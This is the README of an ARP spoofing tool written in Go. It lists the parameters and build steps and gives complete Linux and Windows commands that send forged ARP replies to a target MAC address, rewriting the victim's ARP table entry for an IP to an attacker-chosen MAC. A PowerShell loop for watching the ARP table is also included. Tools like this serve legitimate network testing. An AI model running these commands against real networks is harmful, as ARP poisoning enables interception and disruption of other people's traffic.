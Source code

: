 # ARP Spoofing (but not like the others)

![img](.doc/example.gif)

## Usage

| Parameter      | Description                                                                   |
|----------------|-------------------------------------------------------------------------------|
| targetMAC      | MAC address of the victim to send the attack to                               |
| spoofedIP      | Ip entry in the ARP table of victim to be altered                             |
| spoofedMAC     | New MAC address to be set                                                     |
| interface      | Interface to use to send attack from                                          |
| listInterfaces | Will list interfaces of the machine                                           |
| interactive    | Run this tool in interactive mode, provide quick way to edit current settings |
| help           | Displays help on how to use this                                              |

### Example

#### Build

At the root of the project, run

```bash
go build .
```

#### How-To

First look for the interface name of NIC you want to use by running `./arp-spoof -listInterfaces`.

In the commands below, our machine will send packets using interface `eth1` on Linux,
`\Device\NPF_{94E6ABD7-B890-4E28-B454-6613FE5D2136}` on Windows to the machine with NIC that has MAC address `00:15:5D:09:B8:34`,
that will receive packets telling it machine with IP `200.201.202.144` has MAC address `DE:AD:BE:EF:11:12`.

#### Linux

- Must be run as root

```bash
sudo ./arp-spoof -interface=eth1 -spoofedMAC=DE:AD:BE:EF:11:12 -spoofedIP=200.201.202.144 -targetMAC=00:15:5D:09:B8:34
```

#### Windows

- Must be run as administrator
- Needs [Npcap](https://npcap.com/#download) installed

```powershell
.\arp-spoof.exe -interface "\Device\NPF_{94E6ABD7-B890-4E28-B454-6613FE5D2136}" -spoofedMAC DE:AD:BE:EF:11:12 -spoofedIP 200.201.202.144
```

## Interactive mode

In interactive mode, you can edit the value by clicking it, or simply increase/decrease it, by overing and using the mouse wheel for a quick editing.

![img](.doc/exampleInteractive.gif)

## Display arp table for given IP root using powershell

```powershell
$IP_ROOT="200.201.202."

while ($True)
{
    $arpTable = (arp -a | Select-String -Pattern "^ *$IP_ROOT*" -AllMatches) -join "`n"

    Clear-Host
    Write-Host $arpTable

    Start-Sleep -Seconds 1
}
```

## Notes

- If you're using this tool on a Hyper-V VM, make sure you enabled, for the network interface sending the ARP packets, the MAC address spoofing option
<br/>
<br/>

  ![img](.doc/hyper-v.png)

## Author

SOARES Lucas
